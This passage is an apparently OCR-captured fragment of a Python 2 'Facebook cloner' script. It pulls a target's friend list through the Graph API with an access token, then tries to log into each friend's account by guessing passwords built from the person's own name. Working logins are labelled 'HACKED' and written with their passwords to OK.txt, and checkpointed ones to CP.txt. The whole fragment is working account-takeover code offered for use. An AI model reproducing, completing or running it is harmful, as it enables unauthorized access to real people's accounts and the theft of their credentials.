         r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif select == '0':
        menu()
    else:
        print ''
        print '\tSELECT VALID OPTION'
        print ''
        crack()
    print '\x1b[1;37m[=] TOTAL IDS :\x1b[1;92m ' + str(len(id))
    print '\x1b[1;37m[=] THE PROCESS HAS STARTED'
    print '\x1b[1;37m======================================================='
    print '\x1b[1;32m     SHANKAR-FACEBOOK-CLONER'
    print '\x1b[1;37m======================================================='
    
    def main(arg):
        user = arg
        (uid, name) = user.split('|')
        sharagent = random.choice(sua)
        session = requests.Session()
        session.headers.update({
            'Host': 'mbasic.facebook.com',
            'cache-control': 'max-age=0',
            'upgrade-insecure-requests': '1',
            'user-agent': sharagent,
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'accept-encoding': 'gzip, deflate',
            'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7' })
        host = 'https://mbasic.facebook.com'
        
        try:
            ps = name
            data = session.post('https://mbasic.facebook.com/login.php', data = {
                'email': uid,
                'pass': ps,
                'login': 'submit' })
            sp = data.content
            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps + '\x1b[0;97m'
                ok = open('OK.txt', 'a')
                ok.write(uid + '|' + ps + '\n')
                ok.close()
                oks.append(uid + ps)
            elif 'checkpoint' in sp:
                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps + '\x1b[0;97m'
                cp = open('CP.txt', 'a')
                cp.write(uid + '|' + ps + '\n')
                cp.close()
                cps.append(uid + ps)
            else:
                ps2 = name.lower().split(' ')[0] + name.lower().split(' ')[1]
                data = session.post('https://mbasic.facebook.com/login.php', data = {
                    'email': uid,
                    'pass': ps2,
                    'login': 'submit' })
                sp = data.content
                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                    print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    ok = open('OK.txt', 'a')